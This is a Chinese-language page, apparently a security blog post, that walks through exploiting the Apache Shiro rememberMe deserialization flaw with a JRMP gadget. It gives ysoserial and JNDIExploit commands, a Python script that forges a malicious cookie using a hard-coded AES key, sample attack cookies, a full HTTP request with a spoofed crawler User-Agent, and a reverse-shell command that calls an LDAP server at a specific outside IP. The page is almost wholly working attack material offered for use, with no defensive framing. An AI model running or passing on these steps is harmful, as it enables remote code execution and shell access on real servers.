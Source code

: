 ## shiro JRMP gadget

第一步：

```
java -cp ysoserial-0.0.6-SNAPSHOT-1.8.3.jar  ysoserial.exploit.JRMPListener 8088 CommonsBeanutils2 "ldap://ip:1389/Basic/Command/Whoami"
```

第二步:

```
 java -jar JNDIExploit-1.0-SNAPSHOT.jar -i ip
```



第三步：**修改13行key和21的主机ip和端口是第一步的主机ip和端口**

```
import sys # http11InputBuffer
import uuid
import base64
import subprocess
from Crypto.Cipher import AES


def encode_rememberme(command):

    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-1.8.3.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("4AvVhmFLUs0KTA3Kprsdag==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme("ip:8088")
    print("rememberMe={0}".format(payload.decode()))
```



第四步：**运行修改后第三步脚本**得到生成的cookie发包(某些环境可能使用burp存在问题，最好写个脚本之类的发包。)

```
rememberMe=vmWUdu7/R4y70YB6bHhacqcGLMLYDq4Pf6negfP9CyEJcp1ImtJv+1veBvuS7WxB5i/P9KRe+5qjdI2SAKWDM5LKY/0OrFP37NecjUbYUubeuN293QTNdEm1fKXWIDelGzB45ZxN6HYhLrwx8CJXBH6pHaqxvpofXWNYbnRgjfSrSqo7VIsQLngzrzm7iN62c6iqT7D6oWtQH6vFncEuCVT2o9UJCrRohpswDozdVRcoqObBI6USbSjToSj9g5Z+SzLOkWh4sqAp9DHeZ9OJho9k2grCTofPoOCxIeZ8fU68VjO8AoM7eIcu3l1pNH6wOfbtup+WfmeUv2+Cwyn4l850U9fFLRLLFmnNoILSk38tBk7h7q3hl8Cf+xKrIo21OhuyzR8GqZBEtbYT8sgloA==
```

![image-20211208130452912](https://gitee.com/samny/images/raw/master/summersec//0u05er0ec/0u05er0ec.png)



```
GET /sip2/login HTTP/1.1
Content-Type: text/xml
User-Agent: Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cookie: rememberMe=M3GVUEJCRvGoNdd4QIMLF2K5k9OkALM4FUCAX7VIf8CoDzjvfhGGkiqDefOBvAF21SoZ38kS+/hvBoVzG8Ub++/6uNhNCFlb4sbGnjdiu4DIHcyPas5d9LLnAzrWbWPY0OO1ATuoH2i+DQddFjWJu9ToQwfDCgS+oJquqDguZsTOp5iRn5dB72+c73S1COuu5cjmmlfhPuADPq6v2NFVdHmOCipC1mj8Z8MNjIXZ+JpXi1TP4cEKufXVNE9mzDyxnzGCWr5Qo7taMQua+MpTHEPpUseASlACWHy0IxY1g5ZvI9/Kw2UY9kXdhlQM0dN4Q1O4neoSMvk/N/Muir8KeyH1FrCj+xhSxj9xSGzIOt5m5e8zjDxf7tMXWhRaPOXj7ckP4/ieI82OteoVrSQIVQ==
Host: ip


```



反弹shell：

```
java -cp ysoserial-0.0.6-SNAPSHOT-1.8.3.jar  ysoserial.exploit.JRMPListener 8088 CommonsBeanutils2 "ldap://1.116.32.76:1389/Basic/Command/ReverseShell/{ip}/{port}"
```



## 工具下载地址：

[shiro-JRMP_gadget](https://github.com/SummerSec/BlogParpers/releases/download/shiro/shiro-JRMP_gadget.zip)


